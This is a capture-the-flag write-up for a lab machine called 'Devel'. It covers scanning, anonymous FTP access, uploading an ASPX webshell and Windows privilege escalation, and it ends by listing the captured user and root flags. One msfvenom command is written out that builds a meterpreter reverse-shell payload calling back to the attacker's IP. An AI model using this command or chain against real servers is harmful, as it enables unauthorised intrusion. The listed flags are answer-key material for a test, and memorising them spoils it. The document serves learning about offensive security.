 ## Devel
*Easy*

Used rustscan and found ports 21 and port 80 open.

![](images/devel-scan.png)

Anonymous login through FTP is possible.

![](images/devel-ftp.png)

Brought all the necessary files to my machine.
Notice that the files we found in port scanning were same as those we found in FTP. So it might be a webroot on a windows machine.

Emeuneration using gobuster.

![](images/devel-gobust1.png)

![](images/devel-gobust2.png)

Eneumeration using gobuster was not of much use.

Opened the webpage.

![](images/devel-web.png)

I then opened /iisstart.aspx and /aliproject.aspx and through inspect element found that the server is running ASP.NET

![](images/devel-headers.png)

So might have to upload a .aspx webshell via FTP and then open it in the browser to get the reverse shell.

So to make the payload I used msfvenom.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.33 LPORT=4444 -f aspx > devel.aspx
```
![](images/devel-devel.png)

Then I set up a meterpreter. I set up a local listener to this handler.

![](images/devel-meterpreter.png)

But I am not the administrator. So I need to become the admin. So looking for some system information

![](images/devel-sysinfo.png)

https://null-byte.wonderhowto.com/how-to/bypass-uac-escalate-privileges-windows-using-metasploit-0196076/ was helpful to understand privialge escalation.
https://titanwolf.org/Network/Articles/Article?AID=e8a8d6f5-38ff-419f-ac2b-4b43f646f43a#gsc.tab=0 also helped.

Tried privilage escalation but failed.

![](images/devel-privesc.png)

The above articles seemed to help. But no session was created. 

![](images/devel-failed.png)

So after some more searching, I tried another exploit and this time it worked.

![](images/devel-second.png)

![](images/devel-final.png)

So finally, became the admin.

![](images/devel-user.png)

![](images/devel-root.png)

User flag **9ecdd6a3aedf24b41562fea70f4cb3e8**
Root flag **e621a0b5041708797c4fc4728bc72b4b**

